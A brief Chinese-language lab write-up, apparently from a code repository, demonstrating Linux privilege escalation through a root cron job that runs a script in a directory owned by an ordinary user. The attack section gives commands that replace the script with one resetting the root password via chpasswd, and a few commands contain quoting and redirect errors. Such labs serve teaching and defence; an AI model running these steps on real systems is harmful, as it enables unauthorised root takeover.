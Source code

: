 # 环境准备

**1.root账户配置如下命令：**

```shell
groupadd aplyc1a
useradd -d /home/aplyc1a -m aplyc1a -g aplyc1a -s /bin/bash -p 123456
mkdir -p ~aplyc1a/escal
chown aplyc1a:aplyc1a ~aplyc1a/escal
chmod a+x ~aplyc1a/escal
```

**2.环境内本身有一定时任务：**

root账户定时检查aplyc1a家目录下的文件是否被篡改。

```text
echo '#!/bin/bash' >> ~aplyc1a/escal/.hourlychk.sh
echo "find ~aplyc1a -user root -type f -exec md5sum {}\; >> /var/log/.hourly_chk.log"
chmod 744 ~aplyc1a/escal/.hourlychk.sh
echo "* */1 * * * root /home/aplyc1a/escal/.hourlychk.sh" >> /etc/crontab
systemctl enable crond
systemctl start crond
```

# 攻击实施

由于.hourlychk.sh所在的目录/home/aplyc1a/escal/属主属组是aplyc1a，换句话来说完全可控，因此攻击者获得aplyc1a账户后，可以删除/home/aplyc1a/escal/目录，再重新创建一个新的目录及对应的~aplyc1a/escal/.hourlychk.sh，内部写入恶意命令：


```shell
echo '#!/bin/bash' >> ~aplyc1a/escal/.hourlychk.sh
echo "echo \root:123456\" | chpasswd" >> ~aplyc1a/escal/.hourlychk.sh
chmod a+x ~aplyc1a/escal/.hourlychk.sh
```
